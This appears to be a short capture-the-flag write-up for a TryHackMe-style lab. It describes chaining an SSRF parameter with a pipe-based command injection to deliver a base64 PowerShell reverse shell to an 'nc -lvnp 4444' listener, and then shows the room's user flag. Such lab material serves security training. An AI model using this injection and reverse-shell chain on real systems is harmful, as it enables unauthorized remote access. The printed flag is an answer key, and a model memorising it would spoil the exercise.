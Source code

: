## Create a reverse shell

- Go to https://www.revshells.com/.
	![[Reverse shell-20240830145157847.webp]]
- Select **"Powershell #3 (base64)"**.
- Insert your IP and port.
- Choose **Double URL encode**.
- In the upper right select **"nc"** as listener so:
	- On the attacking machine run `rlwrap nc -lvnp 4444`.
	- On the Repeater paste /?r=http://internal.ironcorp.me:11025/name.php?name=peter| + exploit.
		![[Reverse shell-20240830150307571.webp]]
	- Click on **Send**.

Go to your attacking machine terminal and you'll see you have a shell.

![[Reverse shell-20240830150521430.webp]]


## Get user's flag

- Go to `c:\\users\\Administrator\\Desktop`.
- Run `cat user.txt`.

	thm{09b408056a13fc222f33e6e4cf599f8c}


**Next step:** [[Root's flag]]
